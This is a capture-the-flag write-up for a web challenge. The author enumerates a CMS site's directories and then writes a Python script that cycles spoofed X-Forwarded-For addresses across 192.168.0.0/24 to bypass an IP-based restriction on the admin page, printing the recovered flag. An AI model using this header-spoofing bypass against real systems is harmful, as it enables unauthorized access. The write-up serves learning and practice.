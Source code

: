 # WH01
## BRIEFING
Access the site at https://cfta-wh01.allyourbases.co and find a way to get the flag from the CMS.

## Solution

This one escaped me during the competition as the usual tools (`gobuster`, `dirbuster`, `dirb`) I use to enumerate directories on a website did not seem to work, either not at all or not in any reasonable amount of time. Apparently [dirsearch](https://github.com/maurosoria/dirsearch) was necessary to find the valid extensions. I don't doubt that there are other methods or tools, but I was surprised that `dirsearch` found them while my go-to tools did not. In any case if we download and run `dirsearch` on the target domain we quickly get the hits we're looking for:

```console
[17:53:18] 304 -    0B  - /admin.html
[17:53:51] 200 -  616B  - /index.html
[17:54:08] 200 -  154B  - /readme.txt
[17:54:11] 400 -  371B  - /servlet/%C0%AE%C0%AE%C0%AF
[17:54:13] 200 -    0B  - /soap/
```

If we go to `/readme.txt` we find the text:

```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

This hint is a golden ticket: We need to access `/admin.html` from a machine on the 192.168.0.0/24 subnet. That essentially means we need to send a GET request to `/admin.html` with a spoofed IP address of the form 192.168.0.X where X is in the range 1 to 255. In our request we will need to make use of the `X-Forwarded-For` header to identify the spoofed IP. The `X-Forwarded-For` (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer.

I made the following script:

```py3
import requests

TARGET_URL = 'https://cfta-wh01.allyourbases.co/admin.html'
FORBIDDEN = 304

for i in range(1,256):
    ip = '192.168.0.{}'.format(i)
    headers = {'X-Forwarded-For': ip}
    r = requests.get(TARGET_URL, headers=headers)
    if r.status_code != FORBIDDEN:
        print(r.text)
        print('Accessed via: {}'.format(ip))
        break
```

Running it, we find that the correct IP to spoof was 192.168.0.62 and we get the flag.

```console
root@osboxes:~/Downloads/wh01# python3 solve.py 
<!DOCTYPE html>

<html lang="en">
<head>
    <title>My Blog</title>
    <link rel="stylesheet" href="mysite.css">
</head>
<body>
<div class="main">
    <div class="center">
        <div class="header">
            <h1>Admin</h1>
        </div>
        <div class="content flag">
            <h2>Flag</h2>
            iPSpooFinGWiThHopHeaDers91918
        </div>
        <div class="footer">
            Powered By: mycustomcms 2021
        </div>
    </div>
</div>
</body>
</html>


Accessed via: 192.168.0.62
```

The flag is **iPSpooFinGWiThHopHeaDers91918**.
